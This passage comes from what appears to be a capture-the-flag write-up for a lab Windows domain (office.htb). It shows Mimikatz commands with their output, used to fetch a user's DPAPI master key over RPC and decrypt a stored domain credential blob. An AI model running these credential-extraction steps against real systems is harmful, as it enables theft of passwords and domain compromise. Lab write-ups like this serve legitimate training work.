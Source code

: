 ```console
-a-hs-         7/16/2024  12:59 PM            740 dd51073f-efb9-463b-a892-31cfafe2feb4
-a-hs-         7/16/2024  12:59 PM             24 Preferred
```

### Mimikatz Credential Extraction
In order to get the secret out of these blobs we would normally need to know the user's password. However, since we are logged in we can query the Domain Controller to retrieve the secrets for us. Since we own the
master credentials associated with our own account, we can abuse this component by using the `/rpc` flag in Mimikatz. We will first upload a copy of `mimikatz.exe` and run it to extract the master key.

```console
PS C:\Users\Public> .\mimikatz.exe "dpapi::masterkey /in:C:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc" "exit"

 .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::masterkey /in:C:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc

<SNIP>

[domainkey] with RPC
[DC] 'office.htb' will be the domain
[DC] 'DC.office.htb' will be the DC server
  key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
  sha1: 85285eb368befb1670633b05ce58ca4d75c73c77

mimikatz(commandline) # exit
Bye!
```

The second blob is the correct one (oldest date) and we can find the master key at the bottom. We can then decrypt the blobs using this master key and find a password in the second credential blob.

```console
PS C:\Users\Public> .\mimikatz.exe "dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166" "exit"

<SNIP>

Decrypting Credential:
 * masterkey     : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000be - 190
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 5/9/2023 11:03:21 PM
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
```